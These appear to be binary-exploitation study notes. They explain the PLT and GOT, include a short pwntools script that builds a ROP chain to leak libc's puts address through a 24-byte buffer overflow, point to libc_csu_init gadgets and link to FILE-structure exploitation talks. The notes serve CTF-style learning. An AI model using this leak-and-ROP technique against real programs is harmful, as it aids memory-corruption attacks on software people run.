 ### **Puts Puts**

PLT - Procedure Linkage Table

- If the address of the external resource (eg puts) is known, jumps to it.

- If the address of the external resource is *not* known, look it up

- Accessible in pwntools via 

  ```python
  elf.plt['function_name']
  ```


GOT - Global Offset Table

- Contains pointers to external resources



Example pwntools script to find leak:

```python
from pwn import *

# tell pwntools about your system so it knows calling convention, etc.
context(arch='x86', os='linux', endian='little', terminal=['tmux', 'splitw', '-h'])

# create objects to help us parse the elf and create ROP chains
elf = ELF('path/to/binary')
rop = ROP(elf)

# get a ROP gadget to call puts with a pointer to an address in libc as an address
rop.puts(elf.got['puts'])
p.sendline('A'*24+str(rop))
```



### **Libc_csu_init**

Can't find ROP gadgets to set your arguments? Make your own gadgets!

![](/Users/Rylan/Desktop/Useful/media/libc_csu_init.jpeg)

**STDIN Buffer**

[https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)

[https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf](https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)
